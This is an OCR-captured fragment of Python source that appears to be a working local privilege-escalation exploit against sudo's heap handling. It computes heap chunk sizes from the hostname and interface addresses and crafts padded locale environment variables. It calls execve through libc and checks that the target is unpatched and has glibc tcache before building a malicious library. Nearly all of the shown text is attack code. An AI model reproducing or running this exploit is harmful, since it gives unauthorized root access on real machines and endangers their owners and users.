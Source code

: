 	#host=<hostname>  (unlikely)
	#get_user_info() -> sudo_gethostname()
	import socket
	malloc_size = len("host=") + len(socket.gethostname()) + 1
	chunk_size = (malloc_size + 8 + 15) & 0xfffffff0
	if chunk_size == target_chunk_size: chunk_cnt += 1
	
	#simply parse "networks=" from "ip addr" command output
	#another workaround is bruteforcing with number of 0x70
	#policy_open() -> format_plugin_settings() ->
	#a value is created from "parse_args() -> get_net_ifs()" with very large buffer
	try:
		import ipaddress
	except:
		return chunk_cnt
	cnt = 0
	malloc_size = 0
	proc = subprocess.Popen(['ip', 'addr'], stdout=subprocess.PIPE, bufsize=1, universal_newlines=True)
	for line in proc.stdout:
		line = line.strip()
		if not line.startswith('inet'):
			continue
		if cnt < 2: # skip first 2 address (lo interface)
			cnt += 1
			continue;
		addr = line.split(' ', 2)[1]
		mask = str(ipaddress.ip_network(addr if sys.version_info >= (3,0,0) else addr.decode("UTF-8"), False).netmask)
		malloc_size += addr.index('/') + 1 + len(mask)
		cnt += 1
	malloc_size += len("network_addrs=") + cnt - 3 + 1
	chunk_size = (malloc_size + 8 + 15) & 0xfffffff0
	if chunk_size == target_chunk_size: chunk_cnt += 1
	proc.wait()
	
	return chunk_cnt

def execve(filename, argv, envp):
	libc.execve.argtypes = c_char_p,POINTER(c_char_p),POINTER(c_char_p)
	
	cargv = (c_char_p * len(argv))(*argv)
	cenvp = (c_char_p * len(envp))(*envp)

	libc.execve(filename, cargv, cenvp)

def lc_env(cat_id, chunk_len):
	name = b"C.UTF-8@"
	name = name.ljust(chunk_len - 0x18, b'Z')
	return LC_CATS[cat_id]+b"="+name


assert check_is_vuln(), "target is patched"
assert check_libc_version(), "glibc is too old. The exploit is relied on glibc tcache feature. Need version >= 2.26"
assert check_libc_tcache(), "glibc tcache is not found"
assert check_nscd_condition(), "nscd service is running, exploit is impossible with this method"
service_user_idx = get_service_user_idx()
assert service_user_idx < 9, '"group" db in nsswitch.conf is too far, idx: %d' % service_user_idx
create_libx("X/X1234")
